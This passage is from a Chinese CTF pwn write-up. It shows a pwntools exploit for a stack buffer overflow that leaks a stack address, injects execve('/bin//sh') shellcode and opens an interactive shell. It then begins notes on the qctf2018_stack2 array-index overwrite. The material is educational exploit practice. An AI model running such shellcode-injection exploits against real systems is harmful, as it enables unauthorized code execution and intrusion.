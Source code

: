 'crashme\x00'后面需要填充的大小为：0xff90c4ec - (0xff90c4d2 + 8) = 0x12

exp如下：

```
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
#p = remote('node3.buuoj.cn', 29837)
p = process('./pwn')
e = ELF('./pwn')
p.recvuntil("lets crash: 0x")
stack_addr = u32(p.recv(8).decode("hex")[::-1])
print("stack_addr = " + hex(stack_addr))
offset = 0x1C
shellcode_addr = stack_addr - offset
shellcode = asm("""
push 0x68
push 0x732f2f2f
push 0x6e69622f
mov ebx,esp
xor ecx,ecx
xor edx,edx
push 11
pop eax
int 0x80
""")
payload1 = b'crashme' + '\x00' + b'a' * 0x12 + p32(shellcode_addr) + shellcode
p.recvuntil("> ")
p.sendline(payload1)
p.interactive()
```

# qctf2018_stack2

其实很简单，只是小记一下一次跟数组有关的偏移调试过程

开头要给数字，随便给个

![image-20210408211214397](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739162.png)

由于在改变数组中的元素时未验证下标的有效性，导致我们可以任意写（这种漏洞的本质应该就是C语言用偏移来计算真实地址）

![image-20210408195827299](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739704.png)

在栈上找到数组和我们输入的数（读入时查看数组在内存中的地址）：

![image-20210408211144722](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739590.png)

和返回地址（执行到retn时查看esp位置）：

**切记这里不能用ebp+0x4来算esp，因为这里esp的值是通过lea esp, [ecx-4]得到的，也就是说返回地址并不是保存在ebp+0x4处(并不等于[ebp+0x4])**

![image-20210408211006009](https://cdn.jsdelivr.net/gh/p0lar1star/blog-img/202204041739568.png)
